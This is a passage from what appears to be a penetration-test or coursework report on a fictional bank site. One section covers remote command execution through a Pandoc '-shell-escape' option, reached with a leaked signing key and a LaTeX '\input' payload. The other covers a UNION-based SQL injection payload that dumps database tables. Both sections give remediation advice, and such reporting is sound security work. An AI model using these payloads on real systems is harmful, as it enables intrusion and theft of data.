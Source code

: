 - On `Pandoc`, there is a debug option that`-shell-escape` that allows shell commands to be run. So by signing the string `-shell-escape` with the key `imagineUsingW0rd`, it can enable the debug option on the site.
```python=
from itsdangerous import Signer, BadSignature
    skey = b'imagineUsingW0rd'
    skey = skey.strip()
    s = Signer(skey)
    dbg_option = s.sign("-shell-escape")
    print(dbg_option)

# -shell-escape.ZYO1d05uy-FCZuQ_fSzoDfjkipM
```
- Passing in `-shell-escape.ZYO1d05uy-FCZuQ_fSzoDfjkipM` to the debug option field allows us to inject`\input{|"echo ""; ls / | base64"}`. We convert to Base64 to remove formatting errors.
![Injecting the payload](https://i.imgur.com/woXDYmS.png)
*Injecting the payload*
![Output the injection](https://i.imgur.com/ZaAJl33.png)
*Output the injection*
- Converting it from Base64 reveals the file system's content.
![](https://i.imgur.com/LJrh2QN.png)

### Impact
This vulnerability gives a window for attackers to launch remote code executions against the website, allowing the execution of malicious programs and tampering with the file-system structure, which threatens the stability of the letters sub-domain.

### Remediation
- A priority recommendation would be to disable the debug option on the site, or ensure proper authentication is set for developers wishing to use this option. This will only work however, if the authentication protocols in-place are certified and secure. 
- Alternatively, debug options should not be available on the production build.
- For more information read the following [OWASP Security Misconfiguration report](https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration).

## SQL Injection
### Vulnerability Details 
- A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. 
- A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. 
- SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
- Quoted from [OWASP on SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection).
### Proof of Concept / Steps to Reproduce 
#### pay-portal.quoccabank.com
-  We first start by targeting the list of all tables. We can do this by calling searching the meta-table: `information_schema.tables` and dumping all listed tables.
-  We need to first find out the number of columns needed. By incrementing SQLi payloads of constants until no error is given, we can find out the cardinality needed for pay-portal to be 8. Our final payload is:
```sql=
" OR "1" = "1" UNION SELECT 1,2,3,4,5,6,7, table_name FROM information_schema.tables WHERE table_schema = 'sys';--
```
- Passing this payload will result in a dump of all financial records on the site.
